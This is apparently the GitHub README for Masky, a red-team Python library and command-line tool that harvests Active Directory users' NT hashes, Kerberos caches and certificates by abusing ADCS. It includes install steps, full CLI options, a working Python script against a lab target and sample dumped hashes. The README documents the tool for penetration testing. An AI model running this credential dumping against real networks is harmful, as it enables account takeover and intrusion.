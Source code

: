 # Masky

[![PyPI version](https://badge.fury.io/py/masky.svg)](https://badge.fury.io/py/masky)
[![Twitter](https://img.shields.io/twitter/follow/_ZakSec?label=Zak&style=social)](https://twitter.com/intent/follow?screen_name=_ZakSec)

Masky is a python library providing an alternative way to remotely dump domain users' credentials thanks to an ADCS. A command line tool has been built on top of this library in order to easily gather PFX, NT hashes and CCACHE on a larger scope.

This tool does not exploit any new vulnerability and does not work by dumping the LSASS process memory. Indeed, it only takes advantage of legitimate Windows and Active Directory features (token impersonation, certificate authentication via kerberos & NT hashes retrieval via PKINIT). A blog post was published to detail the implemented technics and how Masky works.

Masky source code is largely based on the amazing [Certify](https://github.com/GhostPack/Certify) and [Certipy](https://github.com/ly4k/Certipy) tools. I really thanks their authors for the researches regarding offensive exploitation technics against ADCS (see. Acknowledgement section). 

## Installation

Masky python3 library and its associated CLI can be simply installed via the public PyPi repository as following:
```
pip install masky
```

The Masky agent executable is already included within the PyPi package.

Moreover, if you need to modify the agent, the C# code can be recompiled via a Visual Studio project located in `agent/Masky.sln`. It would requires `.NET Framework 4` to be built.

## Usage

Masky has been designed as a Python library. Moreover, a command line interface was created on top of it to ease its usage during pentest or RedTeam activities.

For both usages, you need first to retrieve the FQDN of a `CA server` and its `CA name` deployed via an ADCS. This information can be easily retrieved via the `certipy find` option or via the Microsoft built-in `certutil.exe` tool. Make sure that the default `User` template is enabled on the targeted CA.

Warning: Masky deploys an executable on each target via a modification of the existing `RasAuto` service. Despite the automated roll-back of its intial `ImagePath` value, an unexpected error during Masky runtime could skip the cleanup phase. Therefore, do not forget to manually reset the original value in case of such unwanted stop.

### Command line

The following demo shows a basic usage of Masky by targeting 4 remote systems. Its execution allows to collect NT hashes, CCACHE and PFX of 3 distincts domain users from the sec.lab testing domain.

<p align="center">
  <img src="./assets/masky_demo.gif" alt="Masky CLI demo" />
</p>


Masky also provides options that are commonly provided by such tools (thread number, authentication mode, targets loaded from files, etc. ).

```
  __  __           _
 |  \/  | __ _ ___| | ___   _
 | |\/| |/ _` / __| |/ / | | |
 | |  | | (_| \__ \   <| |_| |
 |_|  |_|\__,_|___/_|\_\__,  |
  v0.0.3                 |___/

usage: Masky [-h] [-v] [-ts] [-t THREADS] [-d DOMAIN] [-u USER] [-p PASSWORD] [-k] [-H HASHES] [-dc-ip ip address] -ca CERTIFICATE_AUTHORITY [-nh] [-nt] [-np] [-o OUTPUT]
             [targets ...]

positional arguments:
  targets               Targets in CIDR, hostname and IP formats are accepted, from a file or not

options:
  -h, --help            show this help message and exit
  -v, --verbose         Enable debugging messages
  -ts, --timestamps     Display timestamps for each log
  -t THREADS, --threads THREADS
                        Threadpool size (max 15)

Authentication:
  -d DOMAIN, --domain DOMAIN
                        Domain name to authenticate to
  -u USER, --user USER  Username to authenticate with
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters.
  -H HASHES, --hashes HASHES
                        Hashes to authenticate with (LM:NT, :NT or :LM)

Connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -ca CERTIFICATE_AUTHORITY, --certificate-authority CERTIFICATE_AUTHORITY
                        Certificate Authority Name (SERVER\CA_NAME)

Results:
  -nh, --no-hash        Do not request NT hashes
  -nt, --no-ccache      Do not save ccache files
  -np, --no-pfx         Do not save pfx files
  -o OUTPUT, --output OUTPUT
                        Local path to a folder where Masky results will be stored (automatically creates the folder if it does not exit)
```

### Python library

Below is a simple script using the Masky library to collect secrets of running domain user sessions from a remote target.

```python
from masky import masky
from getpass import getpass


def dump_nt_hashes():
    # Define the authentication parameters
    ca = "srv-01.sec.lab\sec-SRV-01-CA"
    dc_ip = "192.168.23.148"
    domain = "sec.lab"
    user = "askywalker"
    password = getpass()

    # Create a Masky instance with these credentials
    m = masky(ca=ca, user=user, dc_ip=dc_ip, domain=domain, password=password)

    # Set a target and run Masky against it
    target = "192.168.23.130"
    rslts = m.run(target)

    # Check if Masky succesfully hijacked at least a user session
    # or if an unexpected error occured
    if not rslts:
        return False

    # Loop on MaskyResult object to display hijacked users and to retreive their NT hashes
    print(f"Results from hostname: {rslts.hostname}")
    for user in rslts.users:
        print(f"\t - {user.domain}\{user.name} - {user.nt_hash}")

    return True


if __name__ == "__main__":
    dump_nt_hashes()
```

Its execution generate the following output.

```
$> python3 .\masky_demo.py
Password:
Results from hostname: SRV-01
         - sec\hsolo - 05ff4b2d523bc5c21e195e9851e2b157
         - sec\askywalker - 8928e0723012a8471c0084149c4e23b1
         - sec\administrator - 4f1c6b554bb79e2ce91e012ffbe6988a
```

A `MaskyResults` object containing a list of `User` objects is returned after a successful execution of Masky. 

Please look at the `masky\lib\results.py` module to check the methods and attributes provided by these two classes.


## Acknowledgments

- [Olivier Lyak](https://twitter.com/ly4k_) for the [Certipy](https://github.com/ly4k/Certipy) tool and the [associated articles](https://medium.com/@oliverlyak)
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for the [Certify](https://github.com/GhostPack/Certify) tool and the [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) article
- [Dirk-jan](https://twitter.com/_dirkjan) for the [PKINITtools](https://github.com/dirkjanm/PKINITtools) and its [ADCS NTLM relay](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) article
- [SecureAuthCorp](https://github.com/SecureAuthCorp) and the associated contributors for the [Impacket](https://github.com/SecureAuthCorp/impacket) library
- [Pixis](https://github.com/Hackndo/lsassy) for the tool [Lsassy](https://github.com/Hackndo/lsassy)
- Incognito tool and its [Metasploit implementation](https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/incognito/)